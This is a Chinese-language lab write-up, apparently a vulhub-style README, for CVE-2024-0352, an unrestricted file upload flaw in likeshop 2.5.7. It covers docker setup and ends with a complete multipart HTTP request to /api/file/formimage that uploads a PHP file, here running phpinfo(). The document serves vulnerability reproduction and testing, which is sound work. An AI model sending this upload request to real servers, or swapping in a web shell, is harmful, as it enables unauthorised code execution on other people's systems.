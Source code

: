 # CVE-2024-0352 likeshop v2.5.7文件上传漏洞

Likeshop是Likeshop开源的一个社交商务策略的完整解决方案，开源免费版基于thinkPHP开发。Likeshop 2.5.7.20210311及之前版本存在代码问题漏洞，该漏洞源于文件server/application/api/controller/File.php的参数file会导致不受限制的上传。


开源项目地址：https://github.com/likeshop-github/likeshop/releases/tag/2.5.7

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0352
- https://blog.csdn.net/shelter1234567/article/details/135918508

## 漏洞环境

执行如下命令启动一个likeshop-v2.5.7-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到Likeshop 安装向导页面。

设置好mysql连接等参数

![](https://img-blog.csdnimg.cn/direct/ae6bcbb61cce40b39de80195d40bd23f.png)

需要注意的是mysql主机名称应填入mysql

![image-20240229165833535](./1.png)



## 漏洞复现

构造请求上传包

```
POST /api/file/formimage HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------348900489633202294591557761619
Content-Length: 248

-----------------------------348900489633202294591557761619
Content-Disposition: form-data; name="file"; filename="b.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------348900489633202294591557761619--
```

![](https://img-blog.csdnimg.cn/direct/19da932551214374b756414f3eb7efdf.png)

访问payload文件

![](https://img-blog.csdnimg.cn/direct/f8432c783fe243f2a6a838c9a3eb3687.png)
